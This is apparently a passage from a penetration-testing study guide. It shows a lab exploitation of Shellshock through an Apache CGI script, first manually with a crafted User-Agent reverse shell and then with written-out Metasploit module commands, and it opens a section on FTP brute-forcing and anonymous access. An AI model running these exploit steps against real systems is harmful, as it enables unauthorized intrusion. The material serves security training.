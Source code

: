#### Exploitation

* In order to exploit this vulnerability, you will need to locate an input vector or script that allows you to communicate with Bash.
* In the context of an Apache server, we can utilize any legitimate CGI scripts accessible on the web server.
* Whenever a CGI script is executed, the web server will initiate a new process and run the CGI script with Bash.
* The vulnerability can be exploited both manually and automatically with the use of an MSF exploit module.

#### Lab

**Manual method**

```bash
john@attack> nmap 192.134.66.3
```

<figure><img src="../../.gitbook/assets/60.png" alt=""><figcaption></figcaption></figure>

The source code of the web page http://192.134.66.3 grabs information from a CGI script on http://192.134.66.3/gettime.cgi. By catching the request, it's possible to craft the User-Agent to gain a reverse shell. Prepare a netcat listener on the attacker host (port 1234) before sending the request to the victim.

<figure><img src="../../.gitbook/assets/62.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/61.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/63.png" alt=""><figcaption></figcaption></figure>

**MSF method**

```bash
msf6> use multi/http/apache_mod_cgi_bash_env_exec
msf6> set rhosts 192.134.66.3
msf6> set targeturi /gettime.cgi
msf6> run
```

### Exploiting FTP

#### Description

* FTP (File Transfer Protocol) is a protocol that uses TCP port 21 and is used to facilitate file sharing between a server and client/clients.
* It is also frequently used as a means of transferring files to and from the directory of a web server.
* FTP authentication requires a username and password combination. As a result, we can perform a brute-force attack on the FTP server in order to identify legitimate credentials.
* In some cases, FTP servers may be configured to allow anonymous access, which consequently allows anyone to access to the FTP server without providing any legitimate credentials.
